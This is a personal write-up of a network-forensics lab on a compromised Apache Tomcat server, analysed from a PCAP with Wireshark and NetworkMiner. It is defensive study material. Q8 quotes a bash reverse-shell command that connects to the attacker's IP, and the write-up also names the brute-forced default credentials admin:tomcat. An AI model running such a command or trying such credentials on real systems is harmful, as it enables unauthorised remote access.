






# Tomcat Takeover Lab

### Introduction

In this lab, we are given a PCAP file with evidence of malicious activities that led to the compromise an Apache Tomcat web server.

Apache Tomcat webservers are just webservers with Java application containers used to host Java web apps. They are common in enterprises, but also vulnerable to exploits.

Let's begin!

***Q1) Given the suspicious activity detected on the web server, the PCAP file reveals a series of requests across various ports, indicating potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?

Booting up wireshark, I initially saw the IP address 10.0.0.115 making get info requests to the apache web server and suspected it. However, checking with the lab, it was wrong. Upon a simple search for `http.request` I found the IP ***14.0.0.120*** making odd requests to host-manager and manager. In an apache webserver, these locations are where the entire web server is managed, and access to it is extremely useful for attackers.

I guess I shouldn't have jumped the gun on that, but lesson learned 😅.

***Q2) Based on the identified IP address associated with the attacker, can you identify the country from which the attacker's activities originated?***

A quick `whois` search tells us the IP originates from Beijing, ***China***. 

***Q3) From the PCAP file, multiple open ports were detected as a result of the attacker's active scan. Which of these ports provides access to the web server admin panel?***

A simple column for src and dst ports show that the web server (hosted on 10.0.0.112) was open on port ***8080***. This port is often used for development servers, or running admin services (allowing attackers access to admin).

***Q4) Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?***

Doing some research, I learned that enumeration tools are tools like nmap that work by trying different ports (or in this case, http pages) to see what works, and what doesn't. In this case, we can see many HTTP requests being made to slight variations to probe for vulnerabilities. 

One important thing to note is that often these tools are not ***made*** to be hidden. Hence, most developers (for http enumeration) add the name of the tool in the user agent. This allowed me to open a few request packets and see that the tool ***gobuster*** was being used by our attacker here.

***Q5) After the effort to enumerate directories on our web server, the attacker made numerous requests to identify administrative interfaces. Which specific directory related to the admin panel did the attacker uncover?***

This one's fairly straightforward, as we know the ***/manager*** folder is vulnerable and the attacker also happens to make requests to it's interfaces like status and stop.

***Q6) After accessing the admin panel, the attacker tried to brute-force the login credentials. Can you determine the correct username and password that the attacker successfully used for login?***

Now for this question I decided to open up Networkminer and take a look at the credentials tab. Having never used it before, I found it really easy to navigate and a huge timesaver, narrowing possible options to the following usernames and passwords.

But we still have to narrow this down. Back to wireshark, I chose the first login to manager and followed the HTTP stream. After a string of 401 unauthorized, I finally found a 200 OK response, and noting down the cryptic code under Authorization: Basic, I matched it to the credentials ***admin:tomcat***.

Though we didn't really need Networkminer for that one, it was cool to see the possible options straightaway. Also by time, admin:tomcat was the last credential in Networkminer, which we could've interpreted as the correct one. But still - good practice to double check on wireshark.

***Q7) Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?***

Turns out Networkminer was useful after all. Looking at the files section, we can see that only one file was sent from the 14.0.0.120 IP, which is ***JXQOZY.war***. `.war` files store Java web apps, no doubt capable of creating a reverse shell here and communicating with the attacker again.

***Q8) After successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?***

Now this one tripped me up a bit initially. I suspected it had something to do with the TCP packets sent (as they'd contain info on the commands used), but I didn't see how to extract the info from it. However, thanks to a hint, I checked the TCP stream and found the commands, along with our path ***/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'*** pretty easily.

 

And that's it for this lab! Not the hardest for sure, but I appreciated the basic introduction to Networkminer. It's definitely not as powerful as wireshark in analysis, but when used in tandem (like the files and credentials details), it can really speed up the investigation process. I might look to host my own Apache server (or try DVWA for simplicity) to play with Networkminer more in the future, but overall not the heaviest of labs.
 

